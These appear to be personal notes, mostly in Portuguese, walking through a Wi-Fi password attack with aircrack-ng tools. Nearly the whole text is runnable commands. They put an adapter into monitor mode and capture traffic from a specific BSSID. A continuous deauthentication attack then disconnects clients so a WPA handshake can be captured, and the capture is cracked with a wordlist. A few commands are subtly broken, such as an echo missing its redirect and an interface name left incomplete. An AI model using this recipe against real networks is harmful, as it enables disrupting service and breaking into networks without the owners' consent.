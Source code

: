 git clone https://github.com/aircrack-ng/rtl8188eus

cd rtl8188eus

sudo -i

echo "blacklist r8188eu" to  "/etc/modprobe.d/realtek.conf"

exit

sudo make

sudo make install

sudo modprobe 8188eu

iwconfig

---

sudo ifconfig wlan0 down
sudo airmon-ng check kill
sudo iwconfig wlan0 mode monitor

sudo ifconfig wlan0 up
iwconfig
---
---
- pegando o bssid

sudo airodump-ng wlan0

- aqui deve ser pego o bssid e o ch (channel)

---
- verificando apenas a rede

sudo airodump-ng wlan0 -d 8C:44:4F:6E:85:02

---
- no primeiro terimnal

sudo airodump-ng -w hack1 -c 1 -d 8C:44:4F:6E:85:02
  - ou
sudo airodump-ng -w hack1 -c 1 --bssid 8C:44:4F:6E:85:02

- -w é o nome do arquivo
- -c é o ch (channel)
- -d bssid

- no segundo terminal

sudo aireplay-ng --deauth 0 -a 8C:44:4F:6E:85:02 wlan0

- entao volte no primero terminal e la deve ter adicionado algo no fim da primeira linha
- assim podemos parar o segundo terminal (Ctrl + C)
- caso nao apareca, tente conectar na rede
- assim no primeiro terminal, no fim da linha, deve ter algo como <WPA handshake> bssid>

---
- agora opdemos usar o wireshark no nosso arquivo hack1.cap
wireshark hack1.cap
---

- agora colocaremos o wlan0 em modo managed
sudo airmon-ng stop wlan0
  - ou
sudo iwconfig wlan mode managed

---

aircrack-ng hack1.cap -w /home/kali/Descktop/wordlist.txt


---

https://www.youtube.com/watch?v=WfYxrLaqlN8
https://www.youtube.com/watch?v=tYnjMiTTdms

